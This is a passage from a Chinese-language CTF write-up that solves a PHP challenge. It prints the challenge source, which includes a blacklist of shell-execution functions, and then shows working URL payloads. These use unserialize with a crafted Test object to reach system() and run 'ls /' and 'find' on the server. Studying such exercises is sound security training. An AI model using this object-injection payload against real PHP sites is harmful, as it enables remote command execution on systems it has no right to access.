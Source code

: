 那么`call_user_func`的参数应该分别是我们提交的`func`和`p`
~~理论上讲已经可以直接拿到flag了~~ 
```html
index.php?func=file_get_contents&p=index.php
```
得到源码
```php
    <?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
```
正常传递函数和参数恐怕是难以绕过，但源码里有一个类，那么方法已经很显然了，传递一个反序列化函数和一个序列化字符串，利用魔术方法获取flag
```html
index.php?func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```
>bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv start.sh sys tmp usr var var

出人意料的是，flag不在根目录下,查找flag文件也找不到，可能改了名字
```html
index.php?func=unserialize&p=O:4:"Test":2:{s:1:"p";s:21:"find / -name '*flag*'";s:4:"func";s:6:"system";}
```
得到大量数据，当然不能一个一个去看，找找看起来不正常的
![在这里插入图片描述](https://img-blog.csdnimg.cn/a26382f1ae7c4362977d289f5b06b781.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
最终找到一个
>/tmp/flagoefiu4r93
